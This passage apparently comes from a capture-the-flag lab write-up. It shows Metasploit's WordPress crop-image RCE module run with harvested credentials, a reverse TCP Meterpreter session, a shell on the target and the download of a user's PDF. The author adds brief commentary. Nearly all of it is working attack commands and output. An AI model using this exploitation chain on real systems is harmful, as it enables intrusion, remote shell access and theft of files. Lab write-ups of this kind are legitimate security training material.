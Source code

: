 Now magic

```
msf6 exploit(multi/http/wp_crop_rce) > run

[-] Handler failed to bind to 10.8.226.203:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.0.2.2
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.2:32972 ) at 2022-03-26 20:04:39 +0100

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux

```
Ok I get a shell real quick

```
meterpreter > shell
Process 1608 created.
Channel 1 created.

cd /home
ls
bjoel
cd bjoel
ls
Billy_Joel_Termination_May20-2020.pdf
user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
exit

```
Nieh! I am denied access to things again!

```
meterpreter > download Billy_Joel_Termination_May20-2020.pdf
[*] Downloading: Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
[*] Downloaded 67.49 KiB of 67.49 KiB (100.0%): Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
[*] download   : Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
```
